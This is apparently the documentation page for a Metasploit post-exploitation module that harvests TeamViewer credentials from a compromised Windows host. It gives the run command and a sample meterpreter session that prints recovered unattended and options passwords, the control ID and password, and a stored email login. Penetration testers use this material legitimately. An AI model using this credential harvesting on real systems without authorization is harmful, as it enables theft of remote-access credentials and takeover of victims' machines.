 ## Vulnerable Application

  Any Windows host with a `meterpreter` session and TeamViewer 7+
  installed. The following passwords will be searched for and recovered:

  This module allows to enumerate window information to get the control ID
  and Password of TeamViewer. 

  * Options Password -- All module-supported TeamViewer versions (7+)
  * Unattended Password -- TeamViewer versions 7 - 9
  * License Key -- TeamViewer versions 7 - 14

### Installation Steps

  1. Download the latest installer of TeamViewer.
  2. Select "Custom Install With Unattended Password" during

    installation
  3. After installation, navigate to

    `Extra > Options > Security > Advanced > Show Advanced Settings` and
    set the "Options Password"
    * Options can also be exported to a .reg file from here.

## Verification Steps

  1. Get a `meterpreter` session on a Windows host.
  2. Do: ```run post/windows/gather/credentials/teamviewer_passwords```
  3. If the system has registry keys for TeamViewer passwords they will be printed out.
    4. Print the control ID and password.
    5.  If there is a email and password in the login box, the email and password will be printed.

## Options

 **WINDOW_TITLE**

Specify a title for getting the window handle, e.g.:TeamViewer',Default is `TeamViewer`

## Scenarios

```
meterpreter > run post/windows/gather/credentials/teamviewer_passwords 

[*] Finding TeamViewer Passwords on WEQSQUGO-2156
[+] Found Exported Unattended Password: P@$$w0rd
[+] Found Options Password: op*****5
[+] Passwords stored in: /home/blurbdust/.msf4/loot/20200207052401_default_***.***.***.***_host.teamviewer__588749.txt
[*] <---------------- | Using Window Technique | ---------------->
[*] TeamViewer's language setting options are 'zhCN'
[*] TeamViewer's version is '15.3.2682 '
[+] TeamViewer's  title is 'TeamViewer'
[*] Found handle to ID edit box 0x000502a8
[*] Found handle to Password edit box 0x00050248
[+] ID: 1 561 912 659
[+] PASSWORD: AUdbM71f<_
[*] Found handle to Email edit box 0x000501cc
[*] Found handle to Password edit box 0x000501e2
[+] EMAIL: kali-team@qq.com
[+] PASSWORD: Mypassword.
meterpreter >
```
